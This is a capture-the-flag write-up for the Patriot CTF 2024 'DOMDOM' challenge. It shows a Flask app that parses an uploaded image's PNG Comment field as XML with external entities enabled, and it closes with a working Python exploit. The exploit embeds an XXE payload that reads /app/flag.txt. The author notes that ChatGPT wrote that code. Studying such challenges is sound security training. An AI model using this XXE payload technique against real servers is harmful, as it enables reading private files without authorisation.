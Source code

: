 # DOMDOM Patriot CTF 2024

@phulelouch

### Problem:

```
@app.route('/check', methods=['POST', 'GET'])
def check():
    r = requests.Session()
    allow_ip = request.headers['Host']
    if request.method == 'POST':
        url = request.form['url']
        url_parsed = urllib.parse.urlparse(url).netloc 
        if allow_ip == url_parsed:
            get_content = r.get(url = url)
        else:
            return "Cannot request for that url"
        try:
            parsed_json = json.loads(get_content.content.decode())["Comment"]
            parser = etree.XMLParser(no_network=False, resolve_entities=True)
            get_doc = etree.fromstring(str(parsed_json), parser)
            print(get_doc, "ho")
            result = etree.tostring(get_doc)
        except:
            return "Something wrong!!"
        if result: return result
        else: return "Empty head"
    else:
        return render_template('check.html') 
```

```
image = Image.open(name)
            image_dict = {
                   "Filename": image.filename,
                   "Image Size": image.size,
                   "Comment": image.info.get('Comment')
                   }
            return image_dict
```

### Way of thinking :

The problem is a web application that allows users to upload images and then parse the image's EXIF data. The application uses the `Pillow` library to open the image and extract the EXIF. Then load into a dictionary and return it. The problem is that the application does not validate the image's EXIF and load it into XML

TL;DR: This `"Comment": image.info.get('Comment')` and this

```
parsed_json = json.loads(get_content.content.decode())["Comment"]
parser = etree.XMLParser(no_network=False, resolve_entities=True)
get_doc = etree.fromstring(str(parsed_json), parser)
```

are the key to the problem. The application is vulnerable to XXE (XML External Entity) attacks

### Solution:

I use ChatGPT to write the code create an image and replace the comment with a malicious XML payload that read /app/flag.txt. Then just /check it

The code is in domdom\_exploit.py

![alt text](<Screenshot 2024-09-22 at 3.36.09 PM.png>)

### Exploit:

```python
from PIL import Image, PngImagePlugin
import io

image = Image.new('RGB', (100, 100), color = 'red')

xxe_payload = """<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<foo>&xxe;</foo>
"""

# Embed the payload in the Comment field
meta = PngImagePlugin.PngInfo()
meta.add_text("Comment", xxe_payload)

# Save the image to a BytesIO object
image_bytes = io.BytesIO()
image.save(image_bytes, "PNG", pnginfo=meta)
image_bytes.seek(0)

# Save the image to a file
with open("malicious.png", "wb") as f:
    f.write(image_bytes.read())

    #malicious.png64511
```

